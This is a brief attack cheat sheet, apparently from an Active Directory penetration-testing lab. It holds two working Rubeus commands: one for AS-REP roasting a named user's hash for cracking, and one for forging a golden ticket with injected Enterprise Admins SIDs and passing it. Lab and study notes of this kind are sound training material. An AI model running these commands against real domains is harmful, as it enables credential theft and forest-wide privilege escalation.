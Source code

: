 
[[ASREP Roasting]]
```powershell-session
Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

[[ExtraSIDs (SIDHistory)]]

```powershell-session
Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```
